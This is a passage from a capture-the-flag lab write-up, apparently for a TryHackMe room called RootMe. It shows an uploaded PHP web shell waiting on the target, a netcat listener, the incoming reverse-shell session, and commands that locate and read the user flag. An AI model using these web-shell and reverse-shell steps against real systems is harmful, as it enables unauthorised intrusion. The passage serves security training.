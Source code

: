 ![](THM_rrootme_Screenshot_4.png)

___Step 3.5.:___ shelly.phtml now waits at <attack_box_ip>/uploads to be executed

___Step 3.6.:___ set up the listener
```bash
nc -nlvp <port>
```
___Step 3.7.1.:___ after shelly.phtml opens the door, get in politely ...
___Step 3.7.2.:___ ... ask the existential question first, and then kindly ask the other questions ...

```bash
root@ip<attack_box>:~# nc -nlvp <port>
Listening on 0.0.0.0 <port>
Connection received on <target_ip> 32788
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:13:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd 
/
$ find -name user.txt 2>/dev/null
./var/www/user.txt
$ cat /var/www/user.txt

```
... and get the answer